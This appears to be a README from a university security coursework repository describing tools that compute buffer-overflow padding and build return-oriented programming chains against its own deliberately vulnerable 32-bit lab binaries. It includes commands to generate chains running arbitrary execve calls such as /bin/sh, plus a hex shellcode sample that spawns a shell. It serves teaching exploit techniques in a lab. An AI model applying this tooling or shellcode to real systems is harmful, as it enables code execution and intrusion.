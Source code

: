 # Return Oriented Programming Chain Script (COMSM0102)

This repo contains code for generating return oriented programming (ROP) exploit chains. The program `auto-padder.py` first works out the amount of padding that is needed to overwrite the return address of the current function. The program `ROPGadget.py`, which is a modified version of the original found [here](https://github.com/JonathanSalwan/ROPgadget), can create ROP chains for arbitrary `execve()` syscalls and can handle .data addresses and values that contain NULL bytes - the program can (nearly) execute arbitrary shellcode. 

## Setting up the environment

We will be running this proof of concept in a Vagrant virtual machine by using the `Vagrantfile` below. We assume that you have vagrant installed on your machine. 
    
```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.define "box" do |box|
                box.vm.box = "ubuntu/xenial64"
                box.vm.hostname = "SSS-RUN"
                box.vm.provider "virtualbox" do |virtualbox|
        virtualbox.name="SSS-RUN"
    end
  end
end

```

Save the above as a file named `Vagrantfile` into your working directory and run the following in bash to start up and connect to your VM - this might take a while depending on your internet connection.

```
vagrant up
vagrant ssh
```

We can now install some dependencies on the VM by running the following:

```
sudo apt update
sudo apt install -y python3-pip gcc-multilib unzip
pip3 install capstone
```

Traverse into the directory `/vagrant` with:
```
cd /vagrant
``` 

Unzip/extract the provided `code.zip` into your current working directory. If you are cloning the code from a repo, then remember to traverse into the local repository using `cd COMSM0049`.

We can extract the zip with the following:

```
unzip <filename.zip>

```

All of the test programs that we will be using are found in the directory `vulnz` and to compile each of them, we can run:

```
gcc -fno-stack-protector -m32 -static vulnz/vuln1.c -o vulnz/vuln1-32
gcc -fno-stack-protector -m32 -static vulnz/vuln2.c -o vulnz/vuln2-32
gcc -fno-stack-protector -m32 -static vulnz/vuln3.c -o vulnz/vuln3-32
gcc -fno-stack-protector -m32 -static vulnz/vuln4.c -o vulnz/vuln4-32
```

## Running the code

`auto-padder.py` finds the amount of padding needed to overwrite the return address. We can run `auto-padder.py` with the command below - the `--file` flag is used to denote what type of input the buffer overflow makes us of:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 --file
```

We can choose to pipe the value of padding into our modified ROPGadget.py by using the `-p` flag:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 --file -p
```

Running `ROPgadget/ROPgadget.py` will output the generated ROP chain into the file `ropchain`. For debugging purposes, we can view the ropchain using `hexdump -C -v ropchain`

We can use the flags `--file`, `--arg` and `--stdin` to specify what input type the vulnerale file uses or use the shortened versions respectively `-f`, `-a` or `-i`. For example:

```
python3 ROPgadget/auto-padder.py vulnz/vuln1-32 --arg
python3 ROPgadget/auto-padder.py vulnz/vuln2-32 --stdin
```

If we already know the amount of padding that is required to overwrite the return address of the current function, then we can directly run our modifed version of `ROPgadget.py` with the amount of padding paramertised. We do this with the `-p` or `--padding` flags.

```
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln3-32 --padding=44
```

By default, the execve that we run is `execve("/bin/echo", ["/bin/echo", "The", "exploit", "is", "working"], NULL)`. We can now run the generated ROP chain on `vulnz/vuln4-32` and see the `execve` run by using:

```
vulnz/vuln4-32 ropchain
```

## Arbitrary execve()

To generate a ropchain with an arbitrary execve we can set the environment variable `ROPCMD` to run our choosen program. For example:

```
export ROPCMD="/bin/sh"
```

We can then run either `auto-padder.py` to generate the ropchain or we can run `ROPgadget.py` directly as such:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 -f -p
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 -p=44
```

If we need to, we can can easily remove the environment variable by unsetting it:

```
unset ROPCMD
```

## Arbitrary Shellcode

Our modified `ROPgadget.py` allows us to run arbitrary shellcode. Below we have some example shellcode that we can copy and paste into a file called `shellcode_human_readable`, the file is a hexdump and so any other arbitrary shellcode should in this format.

```
31 c0 50 68 2f 2f 73 68
68 2f 62 69 6e 89 e3 50
53 89 e1 99 b0 0b cd 80
```

We need to convert the hexdump into binary which can be done as the following command:

```
xxd -p -r shellcode_human_readable > shellcode_bin
```

Our shellcode has now been converted from its hex encoding into its binary encoding and is found in the output file `shellcode_bin` which we can now use as our input to our programs. We can then create a ROP chain from either `auto-padder.py` or directly from `ROPGadget.py` as follows:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 -f -p --shellcode shellcode_bin
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 -p=44 --shellcode shellcode_bin
```

Again, we can run the ROP chain with:

```
vulnz/vuln4-32 ropchain
```

## Help
As per standard, each program has a "help" display which provides the user with more information. This can be accessed with the `-h`/`--help` flag:

```
python3 ROPgadget/ROPgadget.py --help
python3 ROPgadget/auto-padder.py --help
```